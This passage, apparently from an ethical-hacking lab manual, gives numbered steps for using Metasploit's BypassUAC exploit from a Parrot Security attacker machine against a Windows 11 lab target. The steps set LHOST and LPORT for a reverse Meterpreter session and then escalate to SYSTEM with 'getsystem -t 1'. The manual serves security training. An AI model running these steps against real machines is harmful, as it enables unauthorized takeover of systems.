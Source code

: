 
64. The **Module options** section appears, displaying the previously configured exploit. Here, observe that the session value is set.
65. The **Payload options** section displays the requirement for the payload.

```
Observe that:
```
```
The LHOST option is required, but Current Setting is empty (here, you need to set the IP Address of the local host, (here, the
Parrot Security machine)
```
```
The EXITFUNC option is required, but Current Setting is already set to process , so ignore this option
```
```
The LPORT option is required, but Current Setting is already set to port number 4444 , so ignore this option
```
### 


66. To set the **LHOST** option, type **set LHOST 10.10.1.13** and press **Enter**.
67. To set the **TARGET** option, type **set TARGET 0** and press **Enter** (here, 0 indicates nothing, but the Exploit Target ID).

```
Note: In This task, 10.10.1.13 is the IP Address of the attacker machine (here, Parrot Security ).
```
68. You have successfully configured the exploit and payload. Type **exploit** and press **Enter**. This begins to exploit the UAC settings on
    the **Windows 11** machine.
69. As you can see, the BypassUAC exploit has successfully bypassed the UAC setting on the **Windows 11** machine; you have now
    successfully completed a Meterpreter session.

### 


70. Now, let us check the current User ID status of Meterpreter by issuing the **getuid** command. You will observe that the Meterpreter
    server is still running with normal user privileges.

### 


71. At this stage, we shall re-issue the **getsystem** command with the **-t 1** switch to elevate privileges. To do so, type **getsystem -t 1** and
    press **Enter**.

```
Note: If the command getsystem -t 1 does not run successfully, issue the command getsystem.
```
72. This time, the command successfully escalates user privileges and returns a message stating **got system** , as shown in the screenshot.
